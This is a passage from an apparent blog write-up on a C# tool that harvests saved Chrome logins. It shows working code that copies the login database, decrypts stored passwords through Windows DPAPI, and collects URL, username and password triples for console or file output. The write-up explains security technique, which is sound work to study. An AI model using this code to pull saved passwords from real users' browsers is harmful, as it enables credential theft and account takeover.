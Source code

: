 ```cs

    File.Copy(databaseFilePath, tempDatabaseFilePath, true);

    connection = ChromeDatabaseConnection(tempDatabaseFilePath);
    ChromeDatabaseDecrypt(connection);

    //The process will maintain a handle to the temp database file despite database connection disposal. Garbage collection necessary to release thefile for deletion
    GC.Collect();
    GC.WaitForPendingFinalizers();
    File.Delete(tempDatabaseFilePath);
}
```

#### 3. Decrypt the password!

Now that I've got the URL and username in cleartext from the db, I just need to **unprotect** (decrypt) the password via the DPAPI. As per the [Microsoft Docs](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.protecteddata.unprotect?view=netframework-4.8) it's super simple! The **Unprotect()** function requires three agruments - the encrypted byte array, an optional entropy value (which in our case is not needed), and the "scope" in which the data was encrytpted (either CurrentUser or LocalMachine).

```cs
byte[] decryptedBytes = ProtectedData.Unprotect(password, null, DataProtectionScope.CurrentUser);
string decryptedPasswordString = Encoding.ASCII.GetString(decryptedBytes);
```

At this point, the DPAPI has been fully reverse engineered and [this paper](https://elie.net/static/files/reversing-dpapi-and-stealing-windows-secrets-offline/reversing-dpapi-and-stealing-windows-secrets-offline-paper.pdf) details the full cryptographic scheme. It also details some cool attacks against DPAPI that are worth checking out.

### And that's all there is to it!

I created a `BrowserLoginData` Object to be able to store the resultant decrypted credentials. The tool instanciates a new `BrowserLoginData` object for each decrypted set of logins and append them to a list for output to the console or a file.

```cs
BrowserLoginData loginData = new BrowserLoginData(formSubmitUrl, username, decryptedPasswordString, "Chrome");
ChromeLoginDataList.Add(loginData);
```

Here's what it looks like when these are printed to the console:
![Image](/assets/img/browser-credentials/HBP_chrome_example.PNG)
